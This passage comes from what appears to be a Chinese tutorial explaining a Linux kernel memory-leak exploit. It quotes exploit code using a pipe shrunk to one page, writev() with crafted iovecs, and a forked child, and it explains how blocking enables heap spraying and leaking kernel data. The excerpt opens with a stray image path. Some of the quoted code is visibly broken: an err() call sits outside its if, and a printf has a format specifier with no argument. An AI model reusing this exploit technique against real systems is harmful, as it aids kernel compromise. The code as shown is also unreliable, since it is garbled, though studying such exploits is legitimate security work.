 ```
printf("father:writev begin\n");
ssize_t writev_ret = writev(pipe_fd[1], bio.iovs, iovs_sz);
printf("father:writev endn");
if (writev_ret != (ssize_t)(2 * PAGE_SIZE))
    errx(1, "writev() returns 0x%lx, expected 0x%lx\n",
         writev_ret, (ssize_t)(2 * PAGE_SIZE));
// second page: leaked data
printf("father:read begin\n");
if (read(pipe_fd[0], page_buffer, PAGE_SIZE) != PAGE_SIZE)
printf("father:read finish\n");
    err(1, "read full pipe");
printf("page buff2 %s\n");
pid_t status;
if (wait(&status) != pid)
    err(1, "wait");

```

这段代码涉及到的知识点比上面那几行还要多的多。我把它拆成两个部分，详细解释内核信息是如何被巧妙的泄漏出去的

内核信息泄漏之 1 阻塞的原因及解除
------------------

阻塞的巧妙运用正是实现内核堆喷射的精髓所在

```
int pipe_fd[2];
if (pipe(pipe_fd))
    err(1, "pipe");
if (fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE) != PAGE_SIZE)
    err(1, "pipe size");
static char page_buffer[PAGE_SIZE];

```

先解释管道通信。linux 下进程间通信方式有多种，如管道，socket，信号，共享内存，文件等等。管道通信是半双工的，他会首先创建一个对 pipe：int pipe_fd[2]，用 pipe(pipe_fd) 函数把他俩绑定起来。其中 pipe[0] 是读端，pipe[1] 是写端，只能往 pipe[0] 读数据，另一端写数据，反过来不行，因为这个不是全双工的通信。但是 socket 对可以。另外管道是读阻塞的，意味着如果不往里写数据，读操作会一直卡住。fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE) 用来设置管道的大小为一个页大小，linux 2.6.11 前管道默认是一个页大小，之后默认是 16 个页，只需对 pipe_fd[0] 读端设置，写端无需设置，该设置至关重要，后面会讲

```
pid = fork();
...
if (pid == 0) {
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    sleep(2);
    ...
}

```

用 pid = fork() 创建子进程后，子进程从 prctl(PR_SET_PDEATHSIG, SIGKILL) 继续执行，prctl 表示父进程一旦退出则发送 SIGKILL 信号给子进程让子进程也退出并自动回收子进程资源。接着子进程执行 sleep(2) 进入休眠。这个休眠时间很长，长到父进程一定会执行到结尾，或者直到发生阻塞，子进程才会继续执行。如果子进程想等到父进程运行到退出，由于调用过 prctl，父进程一旦退出后子进程也得退出那么 sleep 后面的代码也没机会执行了，显然不合理，但故只能是父进程运行到阻塞一种情况。可以通过插入 printf 打印下日志看看日志打印的先后顺序来验证这个判断。
